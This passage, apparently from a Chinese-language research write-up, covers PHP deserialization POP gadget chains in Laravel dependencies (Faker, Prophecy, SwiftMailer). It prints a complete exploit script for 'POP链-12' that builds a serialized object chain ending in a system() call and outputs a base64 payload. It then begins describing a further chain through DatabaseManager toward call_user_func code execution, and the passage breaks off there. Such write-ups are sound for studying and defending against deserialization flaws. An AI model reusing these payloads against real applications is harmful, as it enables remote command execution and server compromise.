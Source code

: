 ## POP链-12
起始点和终点的利用链和`POP链-10`一样，将`__toString()`的触发点变一下，跟进`src/Prophecy/Argument/Token/ExactValueToken.php`中的`__toString()`方法，这里`$this->string`、`$this->util`和`$this->value`均可控

![undefined](https://p0.ssl.qhimg.com/t01791efaeaeeaa72ec.png "undefined")

### exp
```php
<?php 
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['stringify' => "system"];
        }
    }
}

namespace Prophecy\Argument\Token {
    use Faker\Generator;
    class ExactValueToken {
        private $string;
        private $value;
        private $util;
        public function __construct($payload) {
            $this->name = null;
            $this->util = new Generator();;
            $this->value = $payload;
        }
    }
}

namespace {
    use Prophecy\Argument\Token\ExactValueToken;
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new ExactValueToken($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP链利用流程图

![undefined](https://p0.ssl.qhimg.com/t018e7431dc08dd992c.png "undefined")

## POP链-13
前半段链子和之前的其它链子一样都行，只要能触发到`__call()`方法)，接着跟进`src/Illuminate/Database/DatabaseManager.php`中的`__call()`方法，其调用了`connection()`方法，跟进去，这里要让其进入`makeConnection()`方法从而来利用`call_user_func()`方法来进行 RCE
